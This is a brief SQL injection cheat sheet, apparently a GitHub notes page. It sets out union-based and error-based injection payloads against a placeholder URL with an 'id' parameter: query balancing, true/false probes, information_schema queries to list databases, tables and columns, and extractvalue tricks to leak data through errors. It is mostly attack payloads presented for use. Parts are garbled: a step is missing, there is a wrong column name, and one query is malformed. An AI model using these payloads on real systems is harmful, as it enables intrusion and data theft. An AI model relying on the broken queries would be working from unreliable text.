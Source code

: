 <h1>SQL Injection</h1>

Union based SQL Injection
=========================
 
Let's assume, vulnerable URL is:

     http://b0x.com/vulnerable.php?id=1
1 . Balance the query

     http://b0x.com/vulnerable.php?id=1'-- -
   
     http://b0x.com/vulnerable.php?id=1--
2 . Checking true false condition by using below mentioned payloads 

     http://b0x.com/vulnerable.php?id=1' and 1=1-- -
     http://b0x.com/vulnerable.php?id=1' and 1=2-- -
     
     http://b0x.com/vulnerable.php?id=1' and 1='1
     http://b0x.com/vulnerable.php?id=1' and 1='2     
4. Finding columns
5. Invalidating output of first query.
6. Using union select 1,2 — -  ——>Union select 1,table_name,3 from information_schema.tables where table_schema=‘mysql’ table_name=‘user’

<b>Find the table name</b> 

    Select table_name from information_schema.tables where table_schema=database()


<b>extract column names</b>

To find column name from specify table and database

    Select column_name from information_schema.columns where table_schema='security' and table_name='user'
To find column name from specify table of current database

    Select column_name from information_schema.columns where table_schema=database() and table_name='user'

<b>Finding the list of databases</b>

Select group_concat(schema_schema) from information_schema.schemata

Error based SQL Injection
=========================

->and extractvalue(1,concat(0x7e,user()))

->We can’t use direct select statement  in this function we have to make it inline query….

and extractvalue(1,concat(0x7e,(select * from table name)))

->Here we make it inline query by injecting in (____) field.



